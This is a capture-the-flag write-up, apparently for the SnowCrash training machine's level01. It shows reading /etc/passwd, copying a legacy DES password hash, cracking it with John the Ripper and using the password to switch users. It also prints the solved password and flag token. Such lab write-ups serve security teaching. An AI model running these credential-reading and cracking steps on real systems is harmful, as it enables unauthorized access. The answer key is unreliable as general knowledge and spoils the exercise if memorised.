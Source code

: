 # Level 01 - Security Issue Discovery Process

This document outlines the steps taken to escalate privileges from `level01` by analyzing the system, discovering weakly protected data, and exploiting it using password cracking tools.

---

## Step 1: Initial Environment Reconnaissance

Inspect the home directory:

```bash
level01@SnowCrash:~$ ls -la
total 12
dr-x------ 1 level01 level01  100 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level01 level01  220 Apr  3  2012 .bash_logout
-r-x------ 1 level01 level01 3518 Aug 30  2015 .bashrc
-r-x------ 1 level01 level01  675 Apr  3  2012 .profile
```

---

## Step 2: File Discovery

Try to find files owned by this or target users:

```bash
level01@SnowCrash:~$ find / -path /proc -prune -o -user level01 -print 2> /dev/null
level01@SnowCrash:~$ find / -path /proc -prune -o -user flag01 -print 2> /dev/null
```

No interesting files were found.

---

## Step 3: Inspecting `/etc/passwd` for Password Hashes

```bash
level01@SnowCrash:~$ cat /etc/passwd
...
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
...
```

We discover a password hash stored directly in `/etc/passwd`, an old and insecure configuration. The hash format is classic DES crypt.

---

## Step 4: Cracking the Password with John the Ripper

### 1. Copy the password hash locally

```bash
scp -P 4242 level01@127.0.0.1:/etc/passwd passwd.txt
```

### 2. Pull the Docker image (only needed the first time)

```bash
sudo docker pull obscuritylabs/johntheripper:latest
```

### 3. Run John the Ripper in Docker

```bash
sudo docker run -it --rm -v ./passwd.txt:/passwd.txt obscuritylabs/johntheripper:latest /passwd.txt
```

John successfully cracks the password:

```bash
abcdefg          (flag01)
```

---

## Step 5: Switching to `flag01` and Getting the Flag

```bash
level01@SnowCrash:~$ su flag01
Password: abcdefg
Don't forget to launch getflag !
```

```bash
flag01@SnowCrash:~$ getflag
Check flag. Here is your token : f2av5il02puano7naaf6adaaf
```

---

## ✅ Summary

- Found password hash in `/etc/passwd`: `42hDRfypTqqnw`
- Cracked it using John the Ripper: **`abcdefg`**
- Switched to `flag01` successfully
- Retrieved token with `getflag`

### Flag Token:

```text
f2av5il02puano7naaf6adaaf
```

Mission accomplished!
